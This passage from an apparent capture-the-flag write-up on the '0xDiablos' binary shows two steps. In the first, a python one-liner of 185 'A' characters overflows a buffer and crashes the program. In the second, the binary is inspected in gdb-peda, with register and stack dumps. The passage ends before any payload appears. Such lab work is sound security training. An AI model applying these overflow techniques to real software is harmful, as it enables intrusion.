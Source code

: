4. We need to input something > than 180 chars:

	```shell
  # try to crash it
	python3 -c 'print("A"*185)' | ./vuln
	You know who are 0xDiablos:
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	Segmentation fault
	```

5. Debug the binary with `gdb`:

	> Install [`gdb-peda`](https://github.com/longld/peda).

	```shell
  # debug the program
	gdb -q vuln
	Reading symbols from vuln...
	(No debugging symbols found in vuln)
	gdb-peda$ start
	Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
	Use 'set logging enabled off'.
	
	Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
	Use 'set logging enabled on'.
	
	[Thread debugging using libthread_db enabled]
	Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
	[----------------------------------registers-----------------------------------]
	EAX: 0x80492b1 (<main>: lea    ecx,[esp+0x4])
	EBX: 0xf7f94ff4 --> 0x21dd8c
	ECX: 0xffffcdc0 --> 0x1
	EDX: 0xffffcde0 --> 0xf7f94ff4 --> 0x21dd8c
	ESI: 0x8049330 (<__libc_csu_init>:      push   ebp)
	EDI: 0xf7ffcba0 --> 0x0
	EBP: 0xffffcda8 --> 0x0
	ESP: 0xffffcda0 --> 0xffffcdc0 --> 0x1
	EIP: 0x80492c0 (<main+15>:      sub    esp,0x10)
	EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
	[-------------------------------------code-------------------------------------]
	   0x80492bc <main+11>: mov    ebp,esp
	   0x80492be <main+13>: push   ebx
	   0x80492bf <main+14>: push   ecx
	=> 0x80492c0 <main+15>: sub    esp,0x10
	   0x80492c3 <main+18>: call   0x8049120 <__x86.get_pc_thunk.bx>
	   0x80492c8 <main+23>: add    ebx,0x2d38
	   0x80492ce <main+29>: mov    eax,DWORD PTR [ebx-0x4]
	   0x80492d4 <main+35>: mov    eax,DWORD PTR [eax]
	[------------------------------------stack-------------------------------------]
	0000| 0xffffcda0 --> 0xffffcdc0 --> 0x1
	0004| 0xffffcda4 --> 0xf7f94ff4 --> 0x21dd8c
	0008| 0xffffcda8 --> 0x0
	0012| 0xffffcdac --> 0xf7d9a7c5 (add    esp,0x10)
	0016| 0xffffcdb0 --> 0x1
	0020| 0xffffcdb4 --> 0x0
	0024| 0xffffcdb8 --> 0x78 ('x')
	0028| 0xffffcdbc --> 0xf7d9a7c5 (add    esp,0x10)
	[------------------------------------------------------------------------------]
	Legend: code, data, rodata, value
	